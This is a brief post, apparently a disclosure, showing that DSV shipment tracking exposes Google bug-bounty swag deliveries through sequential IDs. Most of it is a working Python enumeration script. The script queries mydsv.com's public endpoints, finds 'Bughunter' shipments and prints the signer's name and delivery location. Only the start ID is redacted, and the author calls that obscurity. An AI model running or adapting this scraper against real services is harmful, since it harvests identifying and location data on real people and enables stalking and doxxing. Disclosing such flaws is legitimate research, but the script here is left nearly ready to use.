 ```yaml
---
title: Leaking the locations of the top Google VRP Bug hunters
---
```


When Google gave bug hunters swag they used a logistics company called DSV.
Unfortunately they allow for tracking shipments using an incremental number.

```python
import httpx

requests = 2000
start = <redacted>

def parseSearch(search, id):
    for item in search['data']:
        if item['mainTmsShipmentId'] == str(id):
            return item['randomIdentifier']

def printID(id):
    ShipmentId = str(id)
    Results = httpx.get('https://mydsv.com/app/search/publicShipmentList?q=' + ShipmentId).json()
    RandomId = parseSearch(Results, ShipmentId)
    if not RandomId:
        return
    Shipment = httpx.get('https://mydsv.com/app/search/shipment/' + RandomId).json()
    if 'Bughunter' in str(Shipment['description']):
        print(str(Shipment['signedBy']) + ',' + str(Shipment['delivery']['formattedLocation']).replace(',','') + ' ' + str(Shipment['delivery']['countryCode']))


for i in range(requests):
    printID(start+i)
    if i == 0:
        continue
    printID(start-i)
```

The following code gets their location and the name of who signed for it (if any) by searching the range.

If you're affected by this you can contact the company for data deletion, I don't feel ignoring it is helping to protect people's privacy now or in future use.
I am however keeping the start value secret for privacy through obscurity, in case the attacker doesn't know how to count.
